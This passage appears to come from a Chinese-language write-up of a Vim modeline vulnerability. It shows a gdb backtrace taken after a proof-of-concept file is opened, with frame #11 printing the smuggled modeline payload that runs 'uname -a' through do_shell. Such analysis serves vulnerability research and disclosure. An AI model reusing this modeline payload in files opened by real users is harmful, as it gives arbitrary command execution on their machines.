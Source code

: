 

存在漏洞时，打开poc文件后的调用栈，有一个明显的do_shell的调用:

```shell
gdb-peda$ bt
#0  0x00007f4ba14135b3 in __select_nocancel ()
#1  0x000000000052a69c in RealWaitForChar (fd=0x0, 
#2  0x000000000052a444 in WaitForCharOrMouse 
#3  0x000000000052a393 in WaitForChar (msec=0xffffffffffffffff)
#4  0x0000000000526147 in mch_inchar (buf=0x86c66a <typebuf_init+42> 
#5  0x00000000005c381e in ui_inchar (buf=0x86c66a <typebuf_init+42> 
#6  0x00000000004ad1fe in inchar (buf=0x86c66a <typebuf_init+42> "", 
#7  0x00000000004ace26 in vgetorpeek (advance=0x1) at getchar.c:2832
#8  0x00000000004ab07e in vgetc () at getchar.c:1605
#9  0x00000000004ab526 in safe_vgetc () at getchar.c:1801
#10 0x00000000004ce972 in wait_return (redraw=0x1) at message.c:901
#11 0x000000000045ce32 in do_shell (
    cmd=0x15c7ea0 "uname -a||\" vi:fen:fdm=expr:fde=assert_fails(\"source!\\ %\"):fdl=0:fdt=\"", flags=0x0) at ex_cmds.c:1572
#12 0x000000000045c50c in do_bang (addr_count=0x0, 
#13 0x000000000047f480 in ex_bang (eap=0x7ffe20228c50) at 
#14 0x00000000004741d3 in do_one_cmd (cmdlinep=0x7ffe20228d80, 
#15 0x0000000000470d89 in do_cmdline (cmdline=0x0, 
#16 0x00000000005002cd in nv_colon (cap=0x7ffe202293f0) at 
#17 0x00000000004f9650 in normal_cmd (oap=0x7ffe20229480, 
#18 0x00000000005e96fb in main_loop (cmdwin=0x0, noexmode=0x0) at 
#19 0x00000000005e90e3 in main (argc=0x2, argv=0x7ffe20229778) at 



```

